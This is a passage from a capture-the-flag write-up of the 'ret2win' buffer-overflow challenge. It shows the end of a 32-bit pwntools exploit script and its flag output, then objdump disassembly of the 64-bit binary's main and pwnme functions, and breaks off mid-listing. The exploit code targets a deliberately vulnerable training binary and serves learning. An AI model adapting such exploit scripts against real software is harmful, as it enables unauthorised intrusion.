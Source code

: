 ```
p = start()

# Send the payload after the ">" prompt
p.sendlineafter(b"> ", payload)
p.interactive()

# Close connection
p.close()
```

Running the exploit script, I get the output:
```
$ python3 exploit.py

Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
```

## x86-64 (64-bit) Binary Exploit
For the 64-bit binary, I followed the same steps as before:

- Disassemble the binary
- Find the offset
- Build the exploit

### Step 1: Disassemble the Binary
`objdump -d ./ret2win`
```
0000000000400697 <main>:
  400697:       55                      push   %rbp
  400698:       48 89 e5                mov    %rsp,%rbp
  40069b:       48 8b 05 b6 09 20 00    mov    0x2009b6(%rip),%rax        # 601058 <stdout@GLIBC_2.2.5>
  4006a2:       b9 00 00 00 00          mov    $0x0,%ecx
  4006a7:       ba 02 00 00 00          mov    $0x2,%edx
  4006ac:       be 00 00 00 00          mov    $0x0,%esi
  4006b1:       48 89 c7                mov    %rax,%rdi
  4006b4:       e8 e7 fe ff ff          call   4005a0 <setvbuf@plt>
  4006b9:       bf 08 08 40 00          mov    $0x400808,%edi
  4006be:       e8 8d fe ff ff          call   400550 <puts@plt>
  4006c3:       bf 20 08 40 00          mov    $0x400820,%edi
  4006c8:       e8 83 fe ff ff          call   400550 <puts@plt>
  4006cd:       b8 00 00 00 00          mov    $0x0,%eax
  4006d2:       e8 11 00 00 00          call   4006e8 <pwnme>
  4006d7:       bf 28 08 40 00          mov    $0x400828,%edi
  4006dc:       e8 6f fe ff ff          call   400550 <puts@plt>
  4006e1:       b8 00 00 00 00          mov    $0x0,%eax
  4006e6:       5d                      pop    %rbp
  4006e7:       c3                      ret

00000000004006e8 <pwnme>:
  4006e8:       55                      push   %rbp
  4006e9:       48 89 e5                mov    %rsp,%rbp
  4006ec:       48 83 ec 20             sub    $0x20,%rsp
  4006f0:       48 8d 45 e0             lea    -0x20(%rbp),%rax
  4006f4:       ba 20 00 00 00          mov    $0x20,%edx
  4006f9:       be 00 00 00 00          mov    $0x0,%esi
  4006fe:       48 89 c7                mov    %rax,%rdi
  400701:       e8 7a fe ff ff          call   400580 <memset@plt>
  400706:       bf 38 08 40 00          mov    $0x400838,%edi
  40070b:       e8 40 fe ff ff          call   400550 <puts@plt>
  400710:       bf 98 08 40 00          mov    $0x400898,%edi
  400715:       e8 36 fe ff ff          call   400550 <puts@plt>
```